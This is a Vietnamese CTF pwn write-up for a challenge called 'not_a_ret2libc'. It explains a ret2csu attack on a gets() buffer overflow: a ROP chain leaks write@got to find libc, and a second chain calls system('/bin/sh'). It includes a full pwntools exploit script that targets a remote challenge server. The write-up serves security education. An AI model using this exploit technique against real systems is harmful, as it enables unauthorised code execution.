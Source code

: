 # not\_a\_ret2libc (Pwn)

Bài này đưa sẵn source code, libc

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% code title="not_ret2libc.c" lineNumbers="true" %}
```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```
{% endcode %}

Nhìn đề bài là phải leak được libc ( don't care about the title :))) ). Mình sẽ cố gắng gọi  `write(1,write@got,8)`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Bài này không có `pop rdx` gadget nên mình nghĩ tới cách ret2csu.

Kiểm tra hàm `__libc_csu_init`

```asmatmel
   0x00000000004011a0 <+0>:     endbr64 
   0x00000000004011a4 <+4>:     push   r15
   0x00000000004011a6 <+6>:     lea    r15,[rip+0x2c63]        # 0x403e10
   0x00000000004011ad <+13>:    push   r14
   0x00000000004011af <+15>:    mov    r14,rdx
   0x00000000004011b2 <+18>:    push   r13
   0x00000000004011b4 <+20>:    mov    r13,rsi
   0x00000000004011b7 <+23>:    push   r12
   0x00000000004011b9 <+25>:    mov    r12d,edi
   0x00000000004011bc <+28>:    push   rbp
   0x00000000004011bd <+29>:    lea    rbp,[rip+0x2c54]        # 0x403e18
   0x00000000004011c4 <+36>:    push   rbx
   0x00000000004011c5 <+37>:    sub    rbp,r15
   0x00000000004011c8 <+40>:    sub    rsp,0x8
   0x00000000004011cc <+44>:    call   0x401000 <_init>
   0x00000000004011d1 <+49>:    sar    rbp,0x3
   0x00000000004011d5 <+53>:    je     0x4011f6 <__libc_csu_init+86>
   0x00000000004011d7 <+55>:    xor    ebx,ebx
   0x00000000004011d9 <+57>:    nop    DWORD PTR [rax+0x0]
   0x00000000004011e0 <+64>:    mov    rdx,r14
   0x00000000004011e3 <+67>:    mov    rsi,r13
   0x00000000004011e6 <+70>:    mov    edi,r12d
   0x00000000004011e9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011ed <+77>:    add    rbx,0x1
   0x00000000004011f1 <+81>:    cmp    rbp,rbx
   0x00000000004011f4 <+84>:    jne    0x4011e0 <__libc_csu_init+64>
   0x00000000004011f6 <+86>:    add    rsp,0x8
   0x00000000004011fa <+90>:    pop    rbx
   0x00000000004011fb <+91>:    pop    rbp
   0x00000000004011fc <+92>:    pop    r12
   0x00000000004011fe <+94>:    pop    r13
   0x0000000000401200 <+96>:    pop    r14
   0x0000000000401202 <+98>:    pop    r15
   0x0000000000401204 <+100>:   ret  
```

Yeah, tại `__libc_csu_init+64`  có gadget `mov rdx,r14` giúp ta ghi thanh rdx.

Đầu tiên mình sẽ sử dụng các gadget bắt đầu ở `__libc_csu_init+f6` để ghi các giá trị mong muốn vào cách thanh ghi.

`mov rdx,r14` -> ghi đè r14=8

`mov rsi,r13` -> ghi đè r13=write@got

`mov edi,r12d` -> ghi đè r12=1

`call QWORD PTR [r15+rbx*8]` -> ghi đè r15=write@got và rbx=0

`add rbx,0x1; cmp rbp,rbx` -> ghi đè rbp=1 để thoát loop `jne 0x4011e0` `<__libc_csu_init+64>`

ROPchain đầu tiên

```python
payload =b'0'
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp=1
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r14
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"]) #back to main
```

Đoạn sau chỉ cần lợi dụng địa chỉ của hàm `write` bị leak để tính địa chỉ của chuỗi `"/bin/sh"` và hàm `system`

```python
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
```

ROPchain trước đã giúp ta quay lại hàm main, giờ gửi thêm ROPchain mới để gọi hàm system

```python
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
```

Scirpt giải

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
exe = ELF("not_a_ret2libc_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
pop_rdi_ret=0x0000000000401203
pop_rsi_pop_r15_ret=0x0000000000401201
context.binary = exe
context.log_level='debug'
#p=exe.process()
#gdb.attach(p,gdbscript="b *main+62")
p=remote("45.122.249.68",10022)
#stage1
p.recv()
sleep(1)
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r15
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"])
p.sendline(payload)
sleep(1)
leak=p.recv()[:8][::-1]
sleep(1)
log.info(leak.hex())
#calculate
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
#stage2
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
p.sendline(payload)
sleep(1)
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Flag: \`\`\`







